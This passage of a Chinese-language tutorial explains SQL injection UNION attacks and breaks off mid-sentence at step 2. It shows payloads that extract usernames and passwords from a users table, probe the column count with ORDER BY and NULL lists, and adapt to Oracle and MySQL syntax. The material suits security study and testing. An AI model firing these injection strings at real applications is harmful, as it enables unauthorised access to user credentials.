 使用UNION联合查询执行额外的SELECT语句

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

执行UNION语句

```sql
SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users--'
```

查询到了user表中的username和password

#### 要求

- 每个查询必须返回相同数量的列
- 每列中的数据类型必须在各个查询之间兼容

通常需要在构造语句前了解

- 原始查询返回了多少列
- 原始查询的哪些列可以保存注入查询的结果

#### UNION使用说明

1. 确定SQL注入UNION攻击所需的列数

   - 使用ORDER BY语句递增，直至发生错误。

     ```mysql
     ' ORDER BY 1--
     ```

     这个有效载荷改变了原始查询语句，以结果集中不同列对结果排序查询。当指定列的索引超过结果集中的实际列数时，数据库将返回错误。

   - 提交一系列有效载荷，指定不同数量的NULL。

     ```sql
     ' UNION SELECT NULL--
     ' UNION SELECT NULL,NULL--
     ' UNION SELECT NULL,NULL,NULL--
     ```

     当NULL与列数不匹配时，数据库将返回错误。

   - ==注意==

     - 使用NULL作为注入SELECT查询的返回值是因为，每列的数据类型必须在原始查询和注入查询之间兼容。NULL可以转换为任意数据类型，当列数正确时，使用NULL可以最大限度提高有效载荷的成功率

     - Oracle上每个SELECT查询都必须使用FROM关键字并指定一个有效的表。在Oracle中有个dual内置表。故查询语句为

       ```sql
       ' union select null from dual--
       ```

     - 在Mysql中--后必须有空格，或直接使用#注释

2. 在SQL注入中通过UNION查找有用数据类型列
   首先需要用
